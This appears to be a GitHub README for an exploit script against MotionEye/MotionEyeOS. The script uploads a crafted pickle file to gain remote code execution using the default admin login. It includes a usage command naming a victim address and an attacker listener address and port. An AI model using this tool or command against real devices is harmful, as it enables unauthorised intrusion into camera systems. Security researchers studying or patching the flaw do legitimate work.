 # MotionEye/MotionEyeOS Authenticate RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye

Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 
